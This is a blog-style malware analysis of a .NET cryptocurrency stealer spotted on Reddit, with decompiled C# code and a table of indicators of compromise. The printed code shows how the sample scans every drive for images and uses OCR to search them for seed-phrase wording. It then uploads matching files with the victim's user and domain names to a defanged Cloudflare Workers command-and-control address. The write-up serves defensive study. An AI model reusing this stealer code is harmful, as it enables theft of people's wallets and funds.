

---
date:
  created: 2024-03-27
title: Analysing a random crypto stealer found on Reddit
description: Notes about a crypto stealer someone posted on Reddit
categories:
  - Malware
  - Reversing
  - Cryptocurrency
---

A brief look at a .NET sample found on Reddit that uses OCR to look for cryptocurrency seedphrases.

<!-- more -->

## Introduction

Browsing Reddit I stumbled upon a post with the title [Is this some sort of a Virus?](https://www.reddit.com/r/pcmasterrace/comments/1bndy29/). Instantly intrigued, I checked it out. OP posted an image of the Windows task manager where a process with the name of `f522e3d3-4d06-43e6-b08f-7c01cfa90609.x` was consuming about 15.2% CPU, which strikes as something that shouldn't be the case. Moreover, the mystery process appeared to be stored in the user's Temp directory, further raising suspicions:

<figure markdown="span">
	
	<figcaption>Image courtesy of original Reddit post</figcaption>
</figure>

OP later said he'd submitted it to VT, but did not share a submission link. However, with the help of a simple VTE search for the file name in the screenshot above I managed to get a submission anyways: [08df3a9a3d32b8045e7134bf7ba793e4cf5422b9dfe8f5b1cb98f80b2d950575](https://www.virustotal.com/gui/file/08df3a9a3d32b8045e7134bf7ba793e4cf5422b9dfe8f5b1cb98f80b2d950575).

At the time of writing there weren't many hits, only 4, one of which by Kaskersky which tagged it as `HEUR:Trojan.MSIL.Agent.gen`. The name didn't ring a bell, so I decided to have a look at it myself just for some fun and to perhaps figure out why this thing was **29.14MB** in size!

## Analysis

### First glance info

Looking at the information on VT, I was able to deduct the following:

- 64-bit .NET binary
- Created recently and not many submissions prior to this sample on Reddit
- Likely does something with [Tesseract OCR](https://github.com/tesseract-ocr/tesseract) going by the manifest resources (perhaps why it's so large to accomodate the Tesseract dependencies).

### DnSpyEx analysis

The main function contains the clues to the file size of the binary. Upon starting, it writes four embedded files to disk to then be used at runtime by the binary. These are indeed related to the aforementioned OCR framework and likely hint at the binary attempting to look for specific files/content on the victim machine. The `Main` and accompanying `GetResource` functions are shown down below:

```c#
public class App
{
	// Token: 0x06000001 RID: 1 RVA: 0x00002048 File Offset: 0x00000248
	public static void Main()
	{
		string text = Path.Combine(Path.GetTempPath(), Guid.NewGuid().ToString());
		string text2 = Path.Combine(Path.GetTempPath(), Guid.NewGuid().ToString());
		Directory.CreateDirectory(Path.Combine(text2, "x64"));
		Directory.CreateDirectory(text);
		File.WriteAllBytes(Path.Combine(text2, "x64", "leptonica-1.82.0.dll"), App.GetResource("leptonica-1.82.0.dll"));
		File.WriteAllBytes(Path.Combine(text2, "x64", "tesseract50.dll"), App.GetResource("tesseract50.dll"));
		File.WriteAllBytes(Path.Combine(text, "eng.traineddata"), App.GetResource("eng.traineddata"));
		File.WriteAllBytes(Path.Combine(text, "pdf.ttf"), App.GetResource("pdf.ttf"));
		Environment.CurrentDirectory = text2;
		List<Task> list = new List<Task>();
		using (TesseractEngine tesseractEngine = new TesseractEngine(text, "eng", EngineMode.Default))
		{
			[SNIP]

// Token: 0x06000005 RID: 5 RVA: 0x00002414 File Offset: 0x00000614
private static byte[] GetResource(string filename)
{
	Assembly executingAssembly = Assembly.GetExecutingAssembly();
	string text = executingAssembly.GetManifestResourceNames().Single((string str) => str.EndsWith(filename));
	byte[] array;
	using (Stream manifestResourceStream = executingAssembly.GetManifestResourceStream(text))
	{
		using (MemoryStream memoryStream = new MemoryStream())
		{
			manifestResourceStream.CopyTo(memoryStream);
			array = memoryStream.ToArray();
		}
	}
	return array;
}
```

In terms of what Tesseract is actually being used for, and the broader capabilities of this sample, I was a little let-down. It appears that it simply looks for `.png`, `.jpeg` or `.jpg` files and checks whether they contain some predefined words stored in `wordlist2`. In case the text is found, a `UploadFile` function is called which sends the file via a form to the target C2. The checking for file contents is done in the following section within the previously mentioned `using (TesseractEngine...` code:

```c#
using (TesseractEngine tesseractEngine = new TesseractEngine(text, "eng", EngineMode.Default))
{
	foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
	{
		try
		{
			List<string> images = new List<string>();
			App.GetFiles(driveInfo.RootDirectory.FullName, delegate(string x)
			{
				if (App.IsImage(x))
				{
					images.Add(x);
				}
			});
			foreach (string text3 in images)
			{
				try
				{
					string text4;
					using (Pix pix = Pix.LoadFromFile(text3))
					{
						using (Page page = tesseractEngine.Process(pix, null))
						{
							text4 = page.GetText().ToLower();
						}
					}
					int num = App.wordlist2.Length;
					for (int j = 0; j < num; j++)
					{
						if (!text3.Contains("editor") && text4.Contains(App.wordlist2[j]))
						{
							list.Add(App.UploadFile(text3));
						}
					}
				}
				catch (Exception)
				{
				}
			}
		}
		catch (Exception)
		{
		}
	}
}
```

```c#
// Token: 0x06000002 RID: 2 RVA: 0x0000230C File Offset: 0x0000050C
private static bool IsImage(string name)
{
    return name.EndsWith(".png", StringComparison.OrdinalIgnoreCase) || name.EndsWith(".jpg", StringComparison.OrdinalIgnoreCase) || name.EndsWith(".jpeg", StringComparison.OrdinalIgnoreCase);
}
```

The word list appears to all be related to crypto wallets and their seed phrases. It kind of baffles me that you would look for this in an image, rather than a text file. The list of keywords that are sought after is as follows:

```c#
// Token: 0x04000001 RID: 1
private static string[] wordlist2 = new string[]
{
	"if you have any problem with scanning the qr", "enable google authentication", "write down each word", "write down your secret phrase", "do not create a digital copy such as a screenshot", "write down or copy these words", "do not share your phrase to anyone", "you will be shown a secret phrase on the next screen", "your wallet generation seed is", "please save these 12 words",
	"write down this 12-word secret recovery", "Please write down the following words and keep them in a secure place", "Warning: Do not share these words with anyone. If lost, you might lose your funds", "Ensure you write these words in their order and store them offline", "These words are the key to recovering your wallet. Do not lose them", "If you lose access to your wallet, these words can be used for its recovery", "Do not store these words on your device or in an email. Use a piece of paper to note them down and keep it in a safe place", "Your seed phrase is the only way to restore your funds. Keep it private", "Never enter your seed phrase into any website or software you don't trust", "Avoid storing your seed phrase electronically to minimize hacking risks",
	"If someone gets access to your seed phrase, they have access to your funds", "Always double-check and verify your seed words before finalizing", "Lost seed phrases cannot be recovered by us or anyone else", "For added security, consider storing multiple physical copies of your seed phrase in different locations", "Never disclose your seed phrase, even to support or staff members", "Do a regular check to ensure you still have access to your seed phrase", "Using a passphrase in conjunction with your seed phrase can provide an extra layer of security", "Remember, your funds are as safe as your ability to keep your seed phrase secure", "It's your responsibility to ensure the confidentiality of your seed phrase"
};
```

The uploading functionality is rather simplistic, consisting of a HTTP POST to the C2 domain via a multi part form:

!!! note
	the domain is escaped manually to prevent it from being easily accessible, it is not how it appears in original decomp.

```c#
// Token: 0x06000004 RID: 4 RVA: 0x000023D0 File Offset: 0x000005D0
private static async Task<bool> UploadFile(string filename)
{
	try
	{
		string tempPath = Path.GetTempPath();
		string text = "Fotos";
		string text2 = Path.Combine(tempPath, text);
		if (!Directory.Exists(text2))
		{
			Directory.CreateDirectory(text2);
		}
		using (MultipartFormDataContent form = new MultipartFormDataContent())
		{
			form.Add(new StringContent("7b5ebd3d9e4d49d48cde63bab0a109d8"), "id");
			form.Add(new StringContent("Text"), "app");
			string text3 = Environment.UserName + " " + Environment.UserDomainName;
			form.Add(new StringContent(text3), "user");
			form.Add(new StringContent("fares"), "body");
			form.Add(new ByteArrayContent(File.ReadAllBytes(filename)), Guid.NewGuid().ToString(), Path.GetFileName(filename));
			using (HttpClient httpClient = new HttpClient())
			{
				HttpResponseMessage httpResponseMessage = await httpClient.PostAsync("hxxps://22.rooz2024[.]workers[.]dev", form);
				httpResponseMessage.EnsureSuccessStatusCode();
				TaskAwaiter<string> taskAwaiter = httpResponseMessage.Content.ReadAsStringAsync().GetAwaiter();
				if (!taskAwaiter.IsCompleted)
				{
					await taskAwaiter;
					TaskAwaiter<string> taskAwaiter2;
					taskAwaiter = taskAwaiter2;
					taskAwaiter2 = default(TaskAwaiter<string>);
				}
				if (taskAwaiter.GetResult() == "OK")
				{
					return true;
				}
			}
			HttpClient httpClient = null;
		}
		MultipartFormDataContent form = null;
	}
	catch (Exception)
	{
	}
	return false;
}
```

The C2 domain in question appears to belong to [Cloudflare](https://workers.cloudflare.com/) and their serverless workers and does not appear to return anything useful when attempting to access it normally.

## Conclusion

Not that interesting nor complicated of a binary, really. More so fun to have a quick look at, seeing as it had such a little amount of detections and being recently built. There also appears to be very little done in the form of obfuscation to deter analysis and hide what is happening.

## IOCs

The dropped files themselves are not that interesting, it is the behaviour of them being dropped and simultaneously loaded by the same process which is of note.

| Name/Type | Value|
|---|---|
| C2 domain | hxxps://22.rooz2024[.]workers[.]dev |
| Dropped file eng.traineddata | DAA0C97D651C19FBA3B25E81317CD697E9908C8208090C94C3905381C23FC047 |
| Dropped file pdf.ttf | C7845420925A23D88ED830A63957B8AF85A66A8DAF8D9FC90E843673B2EF1A59 |
| Dropped DLL leptonica-1.82.0.dll | DFCB3E6ED0B16BC55BFDBCF53543CFE42A354B87C3E35BD3A95EEBF005D73E76 |
| Dropped DLL tesseract50.dll | DE4D04EC75095374D98F5DD7A60D14D7E2E0F76589DB693ECCF7AE658BE8CB2B |
